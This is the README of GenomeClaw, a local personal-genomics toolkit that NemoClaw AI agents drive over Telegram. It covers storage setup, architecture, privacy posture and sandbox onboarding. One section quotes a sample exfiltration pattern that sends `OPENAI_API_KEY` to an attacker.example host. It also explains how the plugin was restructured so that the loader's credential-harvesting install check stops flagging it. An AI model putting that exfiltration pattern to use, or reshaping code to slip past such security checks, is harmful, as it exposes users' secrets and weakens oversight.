

# GenomeClaw

> Privacy-first personal genomics CLI for NemoClaw agents.

GenomeClaw is a command-line toolkit for analyzing your own genomic data locally. It wraps standard bioinformatics tools, annotation databases, and evidence-retrieval workflows behind a single CLI surface that **NemoClaw agents** can drive on any Linux or macOS host where NemoClaw and the bioinformatics tools install.

It is designed for **one user at a time, on hardware they own, with their own data**. The user typically reaches the agent over **Telegram**; the agent calls GenomeClaw tools on the host. Genomic source files never leave the device. The NemoClaw agent driving the conversation may run on a cloud frontier model (OpenAI gpt-5.4, Claude Opus, Gemini, etc.) — it sees only the minimal-sufficient tool outputs needed to answer the current question, never bulk dumps.

---

## Goals

- Make personal genomic data **explorable through an agentic interface** for **two distinct conversational tracks** — clinical questions (research framing + clinician-confirmation cues) and lifestyle questions about caffeine, diet, exercise, sleep, alcohol, recovery, etc. (direct, actionable guidance with calibrated evidence).
- **Preserve privacy by default** and minimize unnecessary external exposure.
- Keep raw genomic artifacts as the **authoritative source of truth**.
- Build derived stores that are fast for assistant queries but **fully rebuildable**.
- Support **cautious, evidence-traceable interpretation** rather than clinical over-claiming — *and* avoid the opposite failure mode of punting every lifestyle question to a clinician.
- Fit naturally into **NemoClaw's agentic local-tool workflow model**.

The canonical invariants behind these goals live in [docs/reference/INVARIANTS.md](docs/reference/INVARIANTS.md).

---

## What This Is, and What This Is Not

**What it is**: a research, exploration, *and lifestyle/wellbeing* assistant grounded in the user's own genome. The agent gives direct, evidence-calibrated guidance on lifestyle topics — caffeine metabolism (*CYP1A2*) and sleep, lactase persistence (*LCT/MCM6*) and dairy, alcohol flushing (*ALDH2*), alcohol metabolism (*ADH1B*), caffeine sensitivity (*ADORA2A*), Alzheimer's-risk disclosure (*APOE*), and *MTHFR* skeptical framing — without reflexively deferring to a clinician for what are lifestyle questions. Calibration is driven by the agent's **research-and-synthesis** pattern: it researches the current literature (model training knowledge + `web_search` when enabled), validates against its accumulated memory notes, and synthesizes at the configured model's reasoning ceiling. (The earlier pre-authored `reference/curated_notes/<gene>.md` mechanism was **retired** in `INV-C001` v1.6 in favour of this.)

**What it is not**:

- **Not a clinical decision-support system.** Outputs are framed as research, education, or lifestyle guidance — never diagnosis, prescription, dose, or treatment changes. Anything *clinically* actionable carries a visible escalation marker and points to a clinician.
- **Not a hosted service.** GenomeClaw runs on the user's hardware; there is no GenomeClaw cloud.
- **Not a population-genomics tool.** It is single-user by design.
- **Not a replacement for professional clinical evaluation.** Clinical-actionability findings (ACMG SF, PharmCAT actionable haplotypes, etc.) carry visible escalation markers and are intended to prompt clinical confirmation.
- **Not an imputation / mass-analysis platform.**

---

## Designed For

- **Host**: any Linux or macOS environment with **Docker** (or compatible engine) and **NemoClaw**. The host pipeline ships as the `genomeclaw/toolkit` Docker image — pinned `bcftools` / `mosdepth` / `samtools` / `htslib` / VEP / Cyrius / `pgsc_calc` ride along with it, so there is no host-side bioinformatics install dance. A thin shim ([`bin/genomeclaw`](bin/genomeclaw)) wraps `docker run` so users type the same command across environments. See the [host-side packaging section](docs/reference/architecture.md#host-side-packaging--genomeclawtoolkit-docker-image) for the bind-mount discipline.
- **Agent runtime**: [NemoClaw](https://github.com/aerugo) / OpenShell agentic stack — agents call GenomeClaw subcommands as tools.
- **Primary data input**: [Nebula Genomics](https://nebula.org) WGS outputs (FASTQ, BAM/CRAM, VCF, gVCF). Other sources are extensible but not the initial focus.
- **Reference build**: GRCh38 initially.

---

## Storage planning

GenomeClaw's host pipeline needs four directories, each with a different lifecycle and size profile. Heavy intermediates can produce multi-tens-of-GB of transient scratch (Nextflow `work/`, DuckDB spill, sort temp), and Phase-5+ CRAM workloads push that into the hundreds of GB — an unplanned setup will fill the local boot disk and crash mid-run.

| Mount | Lifecycle | Size (one 30× WGS user) | Where to put it |
|-------|-----------|-------------------------|-----------------|
| `raw/` | Permanent — Nebula source-of-truth artifacts (FASTQ / BAM / CRAM / VCF) | 50–80 GB | Dedicated external drive |
| `reference/` | Slowly versioned — annotation datasets (GRCh38 ~3 GB, ClinVar ~250 MB, gnomAD v4.1 exomes ~200 GB, dbSNP ~25 GB, VEP cache ~75 GB, AlphaMissense ~1.5 GB, SpliceAI ~50 GB, PGS Catalog scoring files ~few GB, PGS Catalog HGDP+1KG ancestry bundle ~16 GB compressed / 28 GB extracted — empirical 2026-05-22, not the originally-estimated 50-60 GB) | ~330–380 GB once everything lands; gnomAD genomes (additional 563 GB) is a follow-up opt-in | Dedicated external drive |
| `derived/` | Per-run, authoritative — `<run-id>/` directories accumulate; provenance-tracked | 1–2 GB per run | Dedicated external drive |
| `_scratch/` | Ephemeral — sharded under `<step>/<run-id>/`; **nothing here is authoritative.** Wiping it between runs is normal hygiene. | Up to multi-tens-of-GB during `pgsc_calc`; multi-hundreds-of-GB for CRAM-scale | Dedicated external drive — physically separated from `derived/` (`INV-D003`) |

The canonical path on macOS Sequoia is the interactive one-time setup:

```bash
# Prerequisites (one-time, host-wide):
brew install colima docker

# Then the canonical setup:
bin/genomeclaw host setup
```

If `colima` or `docker` is missing from PATH, `host setup` fails fast with a one-line install hint instead of a deep traceback. On Linux, native `docker` is the only prerequisite; colima is macOS-only.

`setup` detects your external drive, validates the Nebula deliverable, calculates required free space, refuses if source and target share a parent disk, formats the target as APFS named `Genome_Work`, lays out the four canonical subdirs under `<drive>/genomeclaw/`, copies the Nebula files in with per-file SHA256 verification, edits `~/.colima/default/colima.yaml` to share the partition with the engine VM, and verifies the four bind mounts are RO/RO/RW/RW from inside a one-shot container. After it completes, the shim auto-detects the canonical layout — no env vars needed.

**`setup` is idempotent + self-healing.** Re-running it on an already-configured system is safe: it inspects current state and dispatches the right action automatically — `no-op` when everything's green, `reconfigure_colima` after a `colima delete` wiped the `mounts:` block, `recreate_layout` if a canonical subdir got removed, `start_colima` if it's just stopped. The destructive path (format-and-copy) fires only on a fresh drive or wrong-format partition, and still requires the typed-confirmation prompt. The decision tree is documented in [docs/plans/completed/smart-setup/spec.md § Seven defined states](docs/plans/completed/smart-setup/spec.md) (or `active/` if still in flight when you read this).

**Day-to-day commands** that complement `setup`:

- `bin/genomeclaw host doctor` — read-only diagnostic; checks the four canonical subdirs, surfaces the most recent `setup_completed` event, reports colima status, **flags stale colima mounts** (configured drives that aren't currently plugged in — these block the next `colima start` until removed), and **warns when colima's `mounts:` list doesn't cover `$GENOMECLAW_DERIVED_DIR`** (the failure mode where the docker-wrapped `bin/genomeclaw host service` silently can't see the derived dir and the agent reports `no_active_run`; the warning names both fixes — re-run `host setup` OR `GENOMECLAW_NATIVE=1`). Add `--json` for machine-readable output. Exit 0 iff every check passes (the two warning-class findings — stale mounts + mounts-cover-derived — do not affect the exit code).
- `bin/genomeclaw host eject` — stops colima, **removes the drive's entry from colima's mount config** (with a timestamped backup), then `diskutil eject`s the drive cleanly. Refuses if a toolkit container is still running (use `--force` to override; mid-run yank corrupts the in-flight pipeline). Always run this before unplugging — skipping eject leaves a stale mount entry that prevents colima from booting next time.

If you skipped eject and unplugged the drive (or replaced it), `bin/genomeclaw host doctor` will spot the stale entry and tell you exactly what to fix. The cycle of plug-in / unplug / replace is safe as long as you bracket it with `host eject` and `host setup`.

**Personal-context profile** (`bin/genomeclaw host profile`) — the user's self-reported identity, biometrics, lifestyle, medical history, and family history, stored host-side as a JSON document under `<derived>/host_profile.json` (with an append-only audit log beside it). The agent retrieves it read-only via the `genomeclaw_host_profile` tool **before any genome-informable reply**, so its interpretation is calibrated to the actual person rather than generic (`INV-C004`). The profile survives variant-store rebuilds and is hand-editable from the CLI:

- `bin/genomeclaw host profile init` — guided onboarding walk (`--quick` captures identity + ancestry only; `--skip` records an explicit skip and exits). This step is also **chained onto `host setup`** — pass `host setup --skip-profile` to opt out, or `--thorough-profile` for the full walk during onboarding.
- `bin/genomeclaw host profile show` — render the current profile + section-completeness, or a structured "no profile yet" signal. `--json` emits the envelope; `--section <dotted.path>` scopes the view.
- `bin/genomeclaw host profile set <dotted.path> <value>` — set one field, or append a list element (e.g. `host profile set medical_history.medications.add '{"name": "clopidogrel"}'`).
- `bin/genomeclaw host profile review` — walk the profile in show-only mode and stamp `meta.last_full_review_at`.
- `bin/genomeclaw host profile edit` — open the profile in `$EDITOR`; removing a previously-recorded value requires `--yes` (additive edits don't).

Free-text fields — the family-history narrative especially — stay host-side; the agent paraphrases them at relation-class + condition + age-class granularity and never copies them verbatim into memory notes or `web_search` payloads. The audit log records changed-field paths and free-text **lengths only**, never the values.

**Manual env-var path** (advanced; for non-Sequoia hosts or when `setup` is wrong for your topology):

```bash
export GENOMECLAW_RAW_DIR=/Volumes/MyUSB/genomeclaw/raw
export GENOMECLAW_REF_DIR=/Volumes/MyUSB/genomeclaw/reference
export GENOMECLAW_DERIVED_DIR=/Volumes/MyUSB/genomeclaw/derived
export GENOMECLAW_SCRATCH_DIR=/Volumes/MyUSB/genomeclaw/_scratch
```

The shim auto-creates `$GENOMECLAW_SCRATCH_DIR` and `$GENOMECLAW_SCRATCH_DIR/tmp` on first run (the latter is the in-image `$TMPDIR` target). The other three you stage yourself.

### macOS / colima users — engine-VM file sharing

Bind-mounts only work for paths the Docker engine VM can see. **colima 0.9.1** (the default on macOS Sequoia) shares `$HOME` by default *only on first start*; **passing `--mount` on a later `colima start` replaces the default mount list rather than appending to it**, so adding an external drive without re-listing `$HOME` makes `~/GitRepos`, `~/Documents`, etc. invisible inside the engine VM. The safest path is to edit the persisted config directly:

```bash
# 1. Edit ~/.colima/default/colima.yaml — find the `mounts:` section and
#    list every host path you want shared. For a typical USB-attached setup:
#
#    mounts:
#      - location: /Users/<your-username>
#        writable: true
#      - location: /Volumes/MyUSB
#        writable: true
#
# 2. Restart colima.
colima stop
colima start
```

(Docker Desktop has the same idea under Settings → Resources → File sharing.)

**A macOS Sequoia caveat**: even with `writable: true`, `$HOME` may be mounted **read-only** inside the container because Sequoia's privacy gates on VZ.framework virtiofs require the user to grant Full Disk Access to `limactl` in System Settings → Privacy & Security. External drives under `/Volumes/...` are not affected. The simplest workaround if you don't want to grant Full Disk Access: put **all four** GenomeClaw mounts on the external drive (`derived/` is small enough that the USB has plenty of room).

If `bin/genomeclaw` reports `bind source path does not exist` even though the host path is clearly there, the engine VM almost certainly can't see it — that's the symptom of a missing entry in `~/.colima/default/colima.yaml`'s `mounts:` list.

### `_scratch/` is always disposable

Nothing inside `$GENOMECLAW_SCRATCH_DIR` is authoritative. `rm -rf $GENOMECLAW_SCRATCH_DIR/*` between runs is normal hygiene. If a pipeline crashes mid-run, the next clean attempt starts from scratch — no state recovery in `_scratch/`. The shim refuses to start if `GENOMECLAW_SCRATCH_DIR` resolves under `GENOMECLAW_DERIVED_DIR`, enforcing `INV-D003` (heavy scratch is structurally separated from authoritative outputs).

For the deeper architectural rationale (per-mount sizing, invariant impact, lifecycle) see [docs/reference/architecture.md § Storage planning](docs/reference/architecture.md#storage-planning-where-to-put-each-mount).

---

## Architecture at a Glance

GenomeClaw splits across **two execution domains** (forced by `INV-D002`):



The verified component shape, file paths, network topology, and `INV-xxx` traceability live in [docs/reference/architecture.md](docs/reference/architecture.md). The strategic capability themes and roadmap horizons live in [docs/reference/grand-plan.md](docs/reference/grand-plan.md).

---

## Tooling

GenomeClaw **wraps, it doesn't reimplement**.

**Bioinformatics / file processing**
- `samtools`, `bcftools` (incl. `bcftools stats`), `tabix`, `bgzip`, `bedtools`
- **`mosdepth`** — per-gene mean coverage at ingest (per [MVP spec Q7](docs/plans/active/mvp/spec.md); closes the false-reassurance failure mode)

**Annotation** (per [MVP spec Q5](docs/plans/active/mvp/spec.md) — supersedes SnpEff)
- **VEP** (Variant Effect Predictor) with **MANE Select** transcript pinning
- **LOFTEE** — predicted-LoF confidence filter
- **AlphaMissense** — missense pathogenicity prediction
- **SpliceAI** — splice-altering variant predictor
- **vcfanno** — tabix-indexed overlay annotations (ClinVar, gnomAD v4 with per-population AFs, dbSNP)
- ~~`SnpEff`, `SnpSift`~~ — superseded by Q5; the host can keep them installed for ad-hoc use, but they are no longer the default annotation path.

**Pharmacogenomics** (per [MVP spec Q6](docs/plans/active/mvp/spec.md))
- **PharmCAT** — actionable PGx haplotypes
- **Cyrius** — CYP2D6 outside-call from BAM/CRAM (PharmCAT does not call CYP2D6 from VCF; Cyrius's diplotype feeds PharmCAT's outside-call interface)

**Polygenic risk scores** (per [MVP spec Q8](docs/plans/active/mvp/spec.md))
- **`pgsc_calc`** (PGS Catalog Calculator, Nextflow) with continuous-ancestry normalization against 1000G + HGDP. Initial three-trait panel: CAD, T2D, breast or prostate cancer.

**Programmatic / query layer**
- `cyvcf2`, `pysam`
- `DuckDB`
- `FastAPI` + `Uvicorn` for the host service

**Plugin (sandbox-side, TypeScript / Node.js)**
- `openclaw/plugin-sdk` (`registerTool` + TypeBox parameter schemas + `jsonResult`)

**Planned data sources**
- ClinVar, gnomAD v4 (with per-ancestry AFs), dbSNP
- PharmCAT / PharmGKB-related resources
- PGS Catalog scoring weights (deliberate, host-side, opt-in fetch only)
- The host **personal-context profile** (`<derived>/host_profile.json`) — self-reported identity / biometrics / lifestyle / medical + family history, retrieved by the agent before genome-informable replies (`INV-C004`). *(The earlier `reference/curated_notes/` lifestyle-calibration mechanism was retired in `INV-C001` v1.6 — superseded by agent research-and-synthesis.)*

Implementation languages: **Python** for the toolkit (`packages/toolkit/`), **TypeScript** for the plugin (`packages/nemoclaw-plugin/`).

---

## Privacy Posture

- **Genomic source files** (FASTQ, BAM/CRAM, VCF/gVCF) **never leave the device**, regardless of agent or integration configuration.
- The **NemoClaw agent** (typically a cloud frontier model such as OpenAI gpt-5.4, Claude Opus, or Gemini) is a *named, user-configured* egress destination. Tool outputs flowing to the agent are **minimal-sufficient**: scoped findings, scoped variants, scoped evidence — not bulk dumps. PRS responses include percentile + ancestry calibration warning, never raw PGS variant lists.
- Bulk transfer modes (shipping a whole VCF or a full annotation table to the agent) require explicit per-operation opt-in.
- Other remote integrations (literature lookups, alternative annotators) are **off by default** and gated behind per-operation opt-in. The PGS Catalog scoring-weights fetch (per [MVP spec Q8](docs/plans/active/mvp/spec.md)) is host-side, deliberate, opt-in only — no genomic data flows outbound.
- Secrets and credentials live outside the data directories and are never committed.
- Logs do not include sample identifiers or variant coordinates at default verbosity.
- Redaction happens **before** any payload destined for an external service is materialized.

Full privacy invariants: `INV-P001` and `INV-P002` in [docs/reference/INVARIANTS.md](docs/reference/INVARIANTS.md). Lifestyle / clinical-distinction invariant: `INV-C001` v1.7 (lifestyle direct-guidance + PRS-decline pattern). Host personal-context retrieval: `INV-C004`.

---

## How NemoClaw Agents Use GenomeClaw

GenomeClaw is driven by agents, not humans. The user reaches the agent over **Telegram** (the canonical user surface; OpenShell pairs the Telegram channel into the agent's input). The agent calls GenomeClaw tools on the host. The integration shape:

- **One host CLI binary** (`genomeclaw`) with command groups: `host` (`setup`, `doctor`, `eject`, `service`, and the `profile` subgroup `init`/`show`/`set`/`review`/`edit`), `refs` (`fetch`, `list`, `verify`, `info`), `runs` (`list`, `show`, `current`), and `pipeline` (`ingest`, `normalize`, `annotate`, `materialize`, `run`, plus `pgs-compute`, `prs-prepare-coverage`, `prs-compute`, `pharmcat`, `cyp2d6-call`, `pgs-config-write`).
- **One host service** (`genomeclaw-service`, FastAPI on `127.0.0.1:8645`) exposing scoped read-only HTTP/JSON endpoints: `/v1/health`, `/v1/findings`(+`/{id}`), `/v1/variants`(+`/{key}`), `/v1/evidence/{ref}`, `/v1/provenance/{run-id}`, `/v1/gene/{symbol}`, the agent-driven PRS layer (`/v1/pgs/computed`, `/v1/pgs/computed/{pgs_id}`, `POST /v1/pgs/compute`, `/v1/pgs/compute/{task_id}`), the host personal-context profile (`/v1/host/profile`, `/v1/host/profile/completeness`), and `/v1/capabilities`. Every endpoint is a GET except the single agent-triggered `POST /v1/pgs/compute` (enqueues a host-side compute; it is not a write to the derived store).
- **One sandbox-side plugin** (`packages/nemoclaw-plugin/`) registering **ten agent-callable tools**: `genomeclaw_status`, `genomeclaw_findings`, `genomeclaw_variant`, `genomeclaw_evidence`, `genomeclaw_gene`, `genomeclaw_pgs_list`, `genomeclaw_pgs_get`, `genomeclaw_pgs_compute`, `genomeclaw_pgs_compute_status`, and `genomeclaw_host_profile`. TypeBox parameter schemas; `summary` output class; `jsonResult(...)` payloads with structured `details`. The agent calls `genomeclaw_host_profile` before any genome-informable reply (`INV-C004`); profile content reaches the agent only through this read-only, minimal-sufficient surface and never enters a `web_search` payload.
- **Structured JSON output** on every tool call, suitable for agent tool-use.
- **Safe-by-default operations** vs. operations requiring explicit user opt-in (network calls, PGS Catalog weight fetches, alternative annotators). Agents must respect this distinction.
- **Provenance on every result** — every emitted record carries source identity, tool, version, and parameters (the seven canonical columns of `INV-R001`).

Detail in [docs/reference/architecture.md](docs/reference/architecture.md). Concrete user journeys (clinical, PGx, lifestyle, PRS) in [docs/reference/user-stories.md](docs/reference/user-stories.md).

---

## Repository Layout

GenomeClaw is structured as a workspace with **two packages, one per execution domain**. The `packages/` boundary **is** the deployment-domain boundary: `packages/toolkit/` is host-only (never installed in the sandbox image); `packages/nemoclaw-plugin/` is sandbox-only (never executed on the host except for the build step).

```text
GenomeClaw/
├── README.md                        # This file
├── CLAUDE.md                        # Project rules, invariants, architecture
├── .claude/
│   └── agents/                      # Specialized subagents
├── bin/
│   └── genomeclaw              # Host shim — wraps `docker run genomeclaw/toolkit:<tag>`
├── docs/
│   ├── reference/
│   │   ├── INVARIANTS.md            # Canonical invariant IDs (INV-D001 ...) — v1.26
│   │   ├── grand-plan.md            # Long-term roadmap & capability themes
│   │   ├── architecture.md          # Verified component shape, network topology, host image
│   │   └── user-stories.md          # User journeys + design-gap running list
│   ├── plans/
│   │   ├── CLAUDE.md                # Planning protocol (spec + TDD)
│   │   ├── templates/               # spec / development-plan / phase / work-notes
│   │   ├── active/                  # In-flight implementation plans (mvp/, ...)
│   │   └── completed/               # Finished plans
│   └── reports/                     # Curated user-facing report drafts
└── packages/
    ├── toolkit/                     # HOST-SIDE — Phase 1 scaffolding landed
    │   ├── pyproject.toml
    │   ├── uv.lock
    │   ├── Dockerfile               # Multi-stage `genomeclaw/toolkit` image (bioconda + uv)
    │   ├── .dockerignore
    │   ├── src/genomeclaw_toolkit/
    │   │   ├── cli.py               # `genomeclaw` entry point
    │   │   ├── prep/                # ingest|normalize|annotate|materialize|cyp2d6-call|pgs-compute
    │   │   ├── service/             # FastAPI host service (read-only)
    │   │   └── schemas/             # finding / evidence / provenance / coverage_qc / pgs_scores
    │   └── tests/                   # unit, integration, provenance, determinism, privacy, evidence, reports, invariants
    └── nemoclaw-plugin/             # SANDBOX-SIDE — scaffolding in place
        ├── package.json
        ├── tsconfig.json
        ├── openclaw.plugin.json     # plugin manifest + configSchema
        ├── policy-preset.yaml       # OpenShell network policy preset
        ├── src/index.ts             # registers 6 agent-callable tools (registerTool + TypeBox)
        └── sandbox/Dockerfile       # baked image consumed by `nemoclaw onboard --from`
```

The host-side data directories are **outside the repository**, mounted at deploy time:

```text
/mnt/genomeclaw/
├── raw/         (RO — Nebula FASTQ/BAM/CRAM/VCF; bind-mount-RO at every container entry)
├── reference/   (RO at runtime — grch38, clinvar, gnomad, dbsnp, vep_cache, pgs_catalog, curated_notes/)
├── derived/     (RW — pipeline writes <run-id>/ here; CURRENT symlink)
└── scratch/     (RW — heavy intermediates, sharded under <step>/<run-id>/; INV-D003)
```

(`packages/toolkit/`'s subpackages and tests are placeholders; the MVP plan lays out their phased implementation.)

---

## Getting Started

**MVP Phases 1–6 complete as of 2026-05-22.** The full pipeline runs end-to-end on the project owner's real Nebula 30× WGS: ingest + `bcftools stats` + `mosdepth` (Phases 2/3), VCF normalization + materialization to DuckDB (Phase 3), full **VEP + LOFTEE + AlphaMissense + vcfanno + gnomAD-constraint** annotation with MANE Select transcript pinning (Phase 4; 4.87M variant rows; ClinVar parity 42,885/42,885), host service + sandbox plugin + privacy-default posture (Phase 5), findings + evidence + **Cyrius CYP2D6 outside-call → PharmCAT PGx findings** (Phase 6 Slices D + D'; 9 actionable PGx findings persisted for the project owner's run), **agent-driven PRS** computation (Phase 6 Slice E via the [prs-bootstrap-meta cascade](docs/plans/completed/prs-bootstrap-meta.md); PGS000018 percentile=14.54 within EUR), and a **4/4 live LLM sweep** against gpt-5.5 for Stories 2/4/9/10 (Phase 6 Slice F). 798 toolkit tests pass + 58/58 invariants green. Storage architecture for CRAM-scale workloads shipped via the [cram-scratch-strategy plan](docs/plans/completed/cram-scratch-strategy/). **Phase 7** (end-to-end MVP demo + invariant sweep + Phase-5-deferred SSRF probe + doc drift sweep + plan move to `completed/`) is the next opening — skeleton at [phases/phase-7.md](docs/plans/active/mvp/phases/phase-7.md). Contributors should follow the [planning protocol](docs/plans/CLAUDE.md) (strict TDD per phase).

### Build the host image (today)

```bash
# From the repo root
docker build --tag genomeclaw/toolkit:dev packages/toolkit
docker run --rm genomeclaw/toolkit:dev   # prints `genomeclaw --help`

# Or via the host shim — wraps docker run with the canonical bind-mounts.
bin/genomeclaw --help
```

The shim honors a few env vars:

- `GENOMECLAW_IMAGE` — image reference (default `genomeclaw/toolkit:dev`).
- `GENOMECLAW_RAW_DIR`, `GENOMECLAW_REF_DIR`, `GENOMECLAW_DERIVED_DIR`, `GENOMECLAW_SCRATCH_DIR` — host paths bind-mounted at `/mnt/genomeclaw/{raw(ro), reference(ro), derived(rw), scratch(rw)}`. See [Storage planning](#storage-planning) for what goes where. The shim auto-creates `GENOMECLAW_SCRATCH_DIR` on first run, and auto-detects defaults under `/Volumes/Genome_Work/genomeclaw/` after `genomeclaw host setup` lays out the canonical layout.
- `GENOMECLAW_HOST_SERVICE_PORT` — port the `genomeclaw host service` uvicorn binds on the host (default **8645**). See [Coexisting with other Claw projects on one host](#coexisting-with-other-claw-projects-on-one-host) for why this is 8645 and not 8643.
- `GENOMECLAW_OFFLINE=1` — pass `--network none` (forbids egress; useful for ingest/normalize/annotate, breaks `fetch`).
- `GENOMECLAW_NATIVE=1` — bypass Docker; invoke a locally installed `genomeclaw` (inner-loop dev with `uv run`).

### Coexisting with other Claw projects on one host

GenomeClaw's host service binds **port 8645** by default. Sibling Claw projects bind distinct ports so they coexist without collision:

| Project | Default host-service port | Override env var |
|---------|---------------------------|------------------|
| GenomeClaw | **8645** | `GENOMECLAW_HOST_SERVICE_PORT` |
| [DevRelClaw](https://github.com/OpenRavenClaw/DevRelClaw) | **8643** | `DEVRELGRAPH_HOST_SERVICE_PORT` |

Why distinct ports matter beyond "no `EADDRINUSE`": each project's in-sandbox OpenShell L7 policy preset asserts the host:port pair literally. If two services shared a port, the policy couldn't distinguish "the right service answered" from "the wrong service answered" — privacy enforcement would depend on operator vigilance instead of structural separation. Distinct defaults + per-project policy allowlists make the L7 layer the load-bearing guarantee (see [docs/reports/genomeclaw-devrelclaw-coexistence-2026-05-24.md](docs/reports/genomeclaw-devrelclaw-coexistence-2026-05-24.md) for the full analysis).

**To override the port** (e.g., port 8645 is busy or you want a third project on this host):

```bash
# 1. Pick a new port + tell the shim
export GENOMECLAW_HOST_SERVICE_PORT=8649

# 2. Rebuild the sandbox image with the matching policy-preset port baked in
docker build \
  --build-arg GENOMECLAW_HOST_PORT=8649 \
  -t genomeclaw/sandbox:port-8649 \
  -f packages/nemoclaw-plugin/sandbox/Dockerfile \
  packages/nemoclaw-plugin/

# 3. Run host service on the new port
bin/genomeclaw host service   # binds 127.0.0.1:8649 + 0.0.0.0:8649 inside container
```

The Python source-of-truth port lives in three places (all read the env var with default 8645): [packages/toolkit/src/genomeclaw_toolkit/_cli/commands/host.py](packages/toolkit/src/genomeclaw_toolkit/_cli/commands/host.py), [packages/toolkit/tests/_live_smoke/run.py](packages/toolkit/tests/_live_smoke/run.py), and [bin/genomeclaw](bin/genomeclaw). The sandbox-side policy-preset literal ships in [packages/nemoclaw-plugin/policy-preset.yaml](packages/nemoclaw-plugin/policy-preset.yaml) and is overridden by the `--build-arg GENOMECLAW_HOST_PORT=…` Dockerfile ARG at sandbox-image build time. The plugin's TypeScript default lives in [packages/nemoclaw-plugin/src/index.ts](packages/nemoclaw-plugin/src/index.ts) and is overridden at runtime via openclaw's config channel (`plugins.entries.genomeclaw.config.hostService.baseUrl`).

#### Why the plugin reads config via the openclaw channel, not env vars

OpenClaw's plugin loader runs a **static-analysis credential-harvesting check** at `openclaw plugins install` time. It blocks any plugin file that contains BOTH `process.env[...]` and `fetch(...)` — the canonical shape of a malicious plugin that reads a secret out of the environment and exfiltrates it (`OPENAI_API_KEY` → `fetch("https://attacker.example/", …)`). The heuristic is coarse — it can't tell "read a port number to build a legit URL" apart from "read an API key to send to an attacker" — so any runtime-config-via-env-var pattern in `src/index.ts` (which has `fetch()` in `safeCall()`) trips the install.

We work around this in two places:

- **Host-service port** flows through openclaw's **dedicated config channel**: the plugin declares `hostService.baseUrl` in `openclaw.plugin.json`; the operator (or the live-smoke harness or NemoClaw onboarding) sets the value via `openclaw config set plugins.entries.genomeclaw.config.hostService.baseUrl '"http://host.openshell.internal:8645"'`; the plugin reads it in `resolveConfig()`. **No env-var read in the plugin source** — this is the openclaw-intended pattern; runtime config was always supposed to go through this channel.
- **SSRF runtime-probe enable gate** uses a **filesystem marker** (`/etc/genomeclaw/ssrf-probe-enabled`) instead of an env var. The plugin's `fs.existsSync(...)` call doesn't match the credential-harvesting heuristic. Production sandbox images ship without the marker (probe tool doesn't register; tool count stays at 9). The pytest harness `docker exec`s a `touch` after spawning the container but before starting the gateway, so 10 tools register for that test run only.

Both workarounds are mechanical — they don't change what the plugin can do, just where the gating decision is keyed. Trade-off: marker-file gating is an extra step in the test harness that's easy to forget, but the probe test fails loudly (the tool wouldn't register, the agent's reply parser wouldn't find the expected JSON array) so silent regressions are unlikely.

### Sandbox setup — the GenomeClaw NemoClaw agent

The `bin/genomeclaw` shim + the toolkit image cover the **host-side data pipeline** (ingest, normalize, annotate, materialize). To talk to the **agent** that drives those tools in natural language, GenomeClaw also ships a NemoClaw blueprint that gets onboarded as a NemoClaw sandbox alongside any other sandboxes on this host (e.g., sibling project DevRelClaw).

#### 0. Install NemoClaw on the host (one-time)

```bash
curl -fsSL https://www.nvidia.com/nemoclaw.sh | bash
```

The installer downloads the `nemoclaw` CLI, enables the OpenShell gateway, and authorises Docker access. Node 22 and Docker are prerequisites; Colima on macOS works.

#### 1. Configure secrets in `.env`

The canonical onboarding script reads from `.env` at the repo root:

```bash
# .env
OPEN_AI_API_KEY=sk-proj-…
```

`OPEN_AI_API_KEY` is mandatory; it's forwarded into the sandbox at onboard time and aliased as `OPENAI_API_KEY` for the openclaw provider config.

#### 2. Onboard the sandbox (canonical script)

```bash
./scripts/onboard-sandbox.sh
```

This is the **canonical, idempotent onboarding path**. It:

1. **Pre-builds the plugin TypeScript** so type errors surface fast (the sandbox image rebuild is the slow path).
2. **Builds the `genomeclaw/toolkit:dev` image** if not already present (the host-side bioinformatics container is independent of the sandbox image, but the agent's first follow-up after onboarding will want it).
3. **Runs `nemoclaw onboard --fresh --recreate-sandbox --from packages/nemoclaw-plugin/sandbox/Dockerfile --name genomeclaw`** with `--build-arg GENOMECLAW_HOST_PORT=${HOST_PORT}` so the policy preset baked into the sandbox image agrees with the operator's host-port choice (default 8645).
